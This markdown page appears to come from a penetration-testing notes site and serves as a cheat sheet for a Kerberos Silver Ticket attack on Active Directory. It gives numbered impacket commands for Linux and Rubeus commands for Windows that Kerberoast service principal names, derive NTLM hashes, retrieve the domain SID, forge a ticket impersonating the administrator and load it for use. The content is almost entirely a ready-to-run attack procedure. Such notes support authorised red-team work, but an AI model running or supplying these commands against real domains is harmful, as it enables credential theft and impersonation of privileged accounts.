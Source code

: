 ```yaml
---
title: "Silver Ticket"
date: 2024-7-30
tags: ["Pass-The-Ticket", "SID", "Rubeus", "Ticket Granting Ticket", "Silver Ticket", "Sidhistory", "Domain Controller", "Active Directory", "Windows", "GetUserSPNs"]
---
```


### Silver Ticket Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get service principle name (SPN)

```console
sudo ntpdate -s <DC> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -request -k
```

```console
# If NTLM auth is disabled
sudo ntpdate -s <DC> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-host <DC> -request -k
```

#### 2. Generate NTLM

```console
iconv -f ASCII -t UTF-16LE <(printf '<PASSWORD>') | openssl dgst -md4
```

#### 3. Get domain SID

```console
sudo ntpdate -s <DC> && impacket-getPac -targetUser administrator '<DOMAIN>/<USER>:<PASSWORD>'
```

#### 4. Generate Silver Ticket

```console
impacket-ticketer -nthash <HASH> -domain-sid <SID> -domain <DOMAIN> -dc-ip <DC> -spn <SPN> administrator
```

#### 5. Import ticket

```console
export KRB5CCNAME=administrator.ccache
```

#### 6. Check

```console
klist
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Get service principle name (SPN)

```console
.\rubeus.exe kerberoast /domain:<DOMAIN> /dc:<DC> /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>' /nowrap
```

#### 2. Generate NTLM

```console
.\rubeus.exe hash /password:'<PASSWORD>'
```

#### 3. Get domain SID

#### 3a. Locally

```console
import-module activedirectory
```

```console
Get-ADDomain | fl DomainSID
```

#### 3b. Remotely

```console
# Install ldp.exe (Windows 11)
Settings > System > Optional Features > More Windows Features and add 'Active Directory Lightweight Directory Services'
```

```console
# Bind > Bind with credentials
ldp.exe
```

```console
# Browse > Search
BaseDN: DC=<EXAMPLE>,DC=<COM>
Filter: (objectclass=User)
```

#### 4. Generate silver ticket

```console
.\rubeus.exe silver /domain:<DOMAIN> /dc:<DC> /sid:<SID> /rc4:<HASH> /user:administrator /service:<SPN> /nowrap /ptt
```

#### 5. Check

```console
klist
```

{{< /tabcontent >}}
